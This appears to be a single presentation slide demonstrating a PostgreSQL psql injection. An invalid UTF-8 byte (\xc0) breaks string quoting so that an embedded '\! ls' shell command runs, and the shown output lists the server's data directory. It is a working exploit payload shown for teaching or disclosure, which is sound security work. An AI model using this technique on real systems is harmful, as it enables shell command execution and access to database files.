

59
postgres=# \set q1 `echo -e "SELECT * FROM employees WHERE last_name = 'hax\xc0'; \! ls #' AND age > 40 AND age < 50;"`
postgres=# :q1
SELECT * FROM employees WHERE last_name = 'haxÀ';
ERROR:  invalid byte sequence for encoding "UTF8": 0xc0 0x27
PG_VERSION            pg_multixact          pg_twophase
base                  pg_notify             pg_wal
global                pg_replslot           pg_xact
logfile               pg_serial             postgresql.auto.conf
pg_commit_ts          pg_snapshots          postgresql.conf
pg_dynshmem           pg_stat               postmaster.opts
pg_hba.conf           pg_stat_tmp           postmaster.pid
pg_ident.conf         pg_subtrans
pg_logical            pg_tblspc
# PostgreSQL demo